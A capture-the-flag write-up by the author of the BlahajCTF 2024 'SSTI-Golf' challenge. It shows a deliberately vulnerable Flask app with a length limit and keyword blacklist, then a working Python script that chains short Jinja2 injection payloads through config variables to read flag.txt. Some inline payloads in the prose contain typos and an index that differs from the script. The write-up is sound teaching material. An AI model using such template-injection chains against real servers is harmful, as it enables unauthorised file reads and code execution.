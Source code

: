 ```yaml
---
title: SSTI-Golf
date: 2024-11-26
tags: 
- web
- author-fs
categories: BlahajCTF 2024
---
```


by {% person fs %}

> I got bored of code-golfing so I decided to come up with ssti-golfing.

This challenge was hosted on http://golf.c1.blahaj.sg/.

![](../../static/BlahajCTF2024/golf.png)

This challenge was a classic Jinja2 SSTI challenge but with a (pretty strict) length restriction challenge implemented. Looking at the source code below, it's quite short and not much to really digest.

```py
from flask import Flask, request, render_template, render_template_string
from waitress import serve
import flask
import os
import time

app = Flask(__name__)
app.secret_key=os.urandom(32)

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/greet", methods=["POST"])
def greet():
    blacklist=['cycler','joiner','namespace','lipsum','globals','builtins','request']
    comment=request.form.get("comment")
    if len(comment)>65:
        return render_template("index.html",comment="That's kinda too much for a comment.")
    for i in blacklist:
        if i in comment.lower():
            print('builtins' in comment)
            return render_template("index.html",comment="I don't really like your comment. >:( ")
    return render_template_string(f"Damn. You like {comment}?")

if __name__ == "__main__":
    print(flask.__version__)
    serve(app,host="0.0.0.0",port=8000)

```

The ```render_template_string()``` function directly injects the user supplied data (the comment parameter) into the f-string before rendering it which makes this web app vulnerable to SSTI. However, we see that it checks if the length of the user supplied data exceeds 65 characters (this was a mistake in the source code since it was intended to be 40 but i had deployed this challenge with the restriction being 65 characters so this challenge became significantly more easier (unintended)) and it also blocks a few terms (the blacklist) that can make the SSTI payload extremely short.

However, we can easily get around this restriction by breaking apart our ssti payload into several pieces and storing them into flask config variables since this web app doesn't block using config variables. So you could store ```''.__class__.__mro__[1].__subclassess__``` into a config variable by running ```{{config.update({'u':'ssti-payload'})}}```. Using this method, we can store a payload to read flag.txt such as ```''.__class__.__mro[1].__subclassess__[357]("flag.txt").read()``` which is using LazyFile class to read flag.txt into the following config variables.

```py
import requests
payloads = [
    '{{config.update({"u":config.update})}}', #we are storing the config.update() method into a config variable itself to minimise characters 
    '{{config.u({"a":"".__class__.mro()})}}', #the next few lines just breaks up the payload into multiple parts and stores them into config vars
    '{{config.u({"b":"__subclasses__"})}}',
    '{{config.u({"c":config.a[1]})}}',
    '{{config.u({"d":config.c[config.b]})}}',
    '{{config.u({"e":config.d()[390]})}}',
    "{{config.e('flag.txt').read()}}" ## calling read() on the initialised LazyFile class
]

for i in payloads:
    resp=requests.post("http://127.0.0.1:8000/greet",data={"comment":i})
    print(resp.content)
```

By running this, we get the flag ```blahaj{c0nf1g_v4r14bl35_f7w}```. 

